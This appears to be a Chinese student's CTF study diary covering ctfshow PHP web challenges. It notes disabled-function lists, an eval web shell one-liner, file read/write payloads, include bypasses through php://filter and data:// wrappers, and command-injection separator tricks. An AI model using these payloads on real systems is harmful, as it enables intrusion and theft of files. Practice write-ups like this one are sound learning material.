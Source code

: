 # 11/30日记

## ctfshow大赛原题web680

![image-20241130201028137](https://img2023.cnblogs.com/blog/2759911/202411/2759911-20241130201028457-538653297.png)

fuzz

![image-20241130202731142](https://img2023.cnblogs.com/blog/2759911/202411/2759911-20241130202731250-445622864.png)

php.ini查找disable_function函数禁用

![image-20241130201236083](https://img2023.cnblogs.com/blog/2759911/202411/2759911-20241130201236175-951634512.png)

```
assert,system,passthru,exec,pcntl_exec,shell_exec,popen,proc_open,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstoped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,fopen,file_get_contents,fread,file,readfile,opendir,readdir,closedir,rewinddir
```

命令执行的 基本都禁用了 应该是文件方面的

php代码执行漏洞利用

- 直接获取Shell `?code=@eval($_POST[1]);`
- 获取当前文件的绝对路径 `?code=print(__FILE__);`
- 读文件 `?code=var_dump(file_get_contents('c:\windows\system32\drivers\etc\hosts'));`
- 写文件 `?code=var_dump(file_put_contents($_POST[1],$_POST[2]));``1=shell.php&2=<?php phpinfo()?>`。

scandir 看当前路径下的文件

![image-20241130203633653](https://img2023.cnblogs.com/blog/2759911/202411/2759911-20241130203634056-1507676684.png)

![image-20241130203709215](https://img2023.cnblogs.com/blog/2759911/202411/2759911-20241130203709299-1798938380.png)

读文件的函数被禁用了 直接访问拿到了flag

## 中期测评web486

![image-20241130210316033](https://img2023.cnblogs.com/blog/2759911/202411/2759911-20241130210316476-1626108030.png)

传参报错

![image-20241130210327858](https://img2023.cnblogs.com/blog/2759911/202411/2759911-20241130210327949-194426759.png)

自动补了.php render目录下文件报错 包含index.php

![image-20241130210842883](https://img2023.cnblogs.com/blog/2759911/202411/2759911-20241130210843121-176124587.png)

```php

<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-03-08 15:43:51
# @Last Modified by:   h1xa
# @Last Modified time: 2021-03-08 18:11:51
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

ini_set('display_errors', 'On');
include('render/render_class.php');



$action=$_GET['action'];
if(!isset($action)){
	header('location:index.php?action=login');
}else{
	templateUtil::render($action);
}
```

include文件包含漏洞

![image-20241130211152089](https://img2023.cnblogs.com/blog/2759911/202411/2759911-20241130211152288-1321713234.png)

去做做命令执行吧 题好多啊 能不能精准复习

命令执行web29过5题看看会不会先

## ctfshow web入门web34

![image-20241130214932859](https://img2023.cnblogs.com/blog/2759911/202411/2759911-20241130214933161-206774912.png)

```
获取GET/POST参数绕过：
pyload1:?c=include%0a$_POST[a]?>
post:a=data://text/plain,<?php eval(system("tac flag.php"))?>
pyload2：c=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
pyload3: c=include$_GET[1]?>&1=data://text/plain,<?php system("nl flag.php")?>
pyload4:c=?><?=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php 
tips：
<?php$a = "${@eval($_GET[x])}";
?param=$a=sys;$b=tem;$c=$a.$b;$c($_POST[x]);
linux长度限制
>hp>c.p\\>d\>\\>\ -\\>e64\\>bas\\>7\|\\>XSK\\>Fsx\\>dFV\\>kX0\\>bCg\\>XZh\\>AgZ\\>waH\\>PD9\\>o\ \\>ech\\ls -t>0sh 0
```

## web50

截断：|| && %0a

 || : 前面的命令执行成功，则后面的命令不会执行；前面的命令执行失败，则后面的命令执行（类似if-else语句）

%09 < "" $IFS 截断 拼接命令

命令：[[tac](https://so.csdn.net/so/search?q=tac&spm=1001.2101.3001.7020)|cat|nl 等] [ |%09|$IFS|<|>] [../|./|/(目录)] [文件名] [%26| ‘||’ |%0a |%26%26(隔断符)]

过滤flag 替换空字符 双写 

?><?  ：意思是 <?php

命令执行常见函数

```
system()
passthru()
exec()
shell_exec()
popen()
proc_open()
pcntl_exec()
反引号 同shell_exec() 
```

```
more:一页一页的显示档案内容
less:与 more 类似 head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是
cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看 file -f:报错出具体内容 grep
1、在当前目录中，查找后缀有 file 字样的文件中包含 test 字符串的文件，并打印出该字符串的行。此时，可以使用如下命令： grep test *file strings
```

## web37

文件包含函数

```
highlight_file 包含文件的源代码
show_source 是highlight_file函数的别名
include 引入文件 当文件名没有合理校验的时候 会泄露本地文件 
require_once() // 如果一个文件已经被包含过，则不会在包含它
include_once() // 如果一个文件已经被包含过，则不会在包含它
require 区别于include 如果发生错误 会终止运行 运行时立即调用文件
file_get_contents() 将文件读入字符串中 
fopen()打开一个文件或者url
readfile()输出一个文件
next 返回当前数组下一个值
array_reverse 按顺序返回数组
scandir 列出指定路径的文件和目录
dirname 返回路径的目录部分
pos 返回当前元素的值
eval 字符串做php代码
localeconv 返回个点
```

文件包含伪协议

```
php://input

post: <?php phpinfo();?>

php://filter

php://filter/resource=xxx.php

php://filter/read=convert.base64-encode/resource=xxx.php


```

web29-37 50 web486 ctfshow大赛原题web680 今天做的比较杂想看看哪里有特别不会的地方 有点迷茫从哪里开始复习
